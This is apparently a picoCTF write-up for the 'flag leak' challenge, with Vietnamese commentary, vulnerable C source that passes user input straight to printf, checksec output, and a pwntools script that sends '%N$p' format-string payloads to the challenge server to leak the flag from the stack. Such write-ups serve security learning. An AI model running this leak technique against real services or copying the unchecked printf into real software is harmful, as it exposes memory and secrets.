

# flag leak

## Description

Story telling class 1/2.I'm just copying and pasting with this program. What can go wrong? You can view source here.

## source code

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

## checksec

```terminal
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## solution

Để ý sẽ thấy chương trình bị dính format string `printf(story)`. Trước đó hàm readflag đã được gọi, flag vẫn còn trong stack. Mình viết 1 script leak stack.

```python
#!python3
from pwn import *

for i in range(1,50):
    #connect saturn.picoctf.net 57669
    r = remote('saturn.picoctf.net', 65296)
    r.recv()
    r.sendline(b'%'+str(i).encode()+b'$p')
    a = r.recv().decode()[20:]
    try:
        print(bytearray.fromhex(a).decode()[::-1])
    except:
        next

    r.close()
```

